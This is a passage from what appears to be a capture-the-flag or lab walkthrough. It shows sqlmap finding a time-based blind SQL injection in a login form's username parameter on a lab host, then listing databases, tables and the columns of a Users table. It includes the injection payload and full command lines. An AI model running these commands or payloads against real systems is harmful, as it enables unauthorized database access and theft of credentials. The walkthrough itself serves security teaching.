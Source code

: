 ## Exploitation
### SQL Injection

To further test the login form I used sqlmap, this detected a SQL Injection vulnerability in the username parameter.

```bash
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 4856 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8370 FROM (SELECT(SLEEP(5)))txxC)-- bzWz&password=password&submit= Login
---
[21:42:20] [INFO] the back-end DBMS is MySQL
...
```

Listing the available databases.

```bash
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5 --dbms=mysql --dbs
...
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp
```

Retrieving the users table from the Webapp database.

```bash
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5 --dbms=mysql -D Webapp --tables
...
Users
Database: Webapp
[1 table]
+-------+
| Users |
+-------+
```

Listing the columns from the table users.

```bash
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5 --dbms=mysql -D Webapp -T Users --columns
...
Database: Webapp
Table: Users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(10)      |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+
```